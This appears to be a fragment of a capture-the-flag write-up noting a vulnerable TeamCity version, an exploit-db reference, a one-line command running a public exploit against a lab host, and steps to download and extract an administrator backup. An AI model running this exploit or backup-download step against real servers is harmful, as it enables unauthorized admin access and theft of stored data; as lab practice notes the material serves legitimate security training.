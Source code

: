 [teamcity] version Version 2023.05.3 (build 129390) (VULNERABLE)
url: https://www.exploit-db.com/exploits/51884

```
python3 exploit.py -t http://teamcity.runner.htb  -u test -p test
```

Administration -> Backup -> Download

7z x TeamCity_Backup_20240425_115048.zip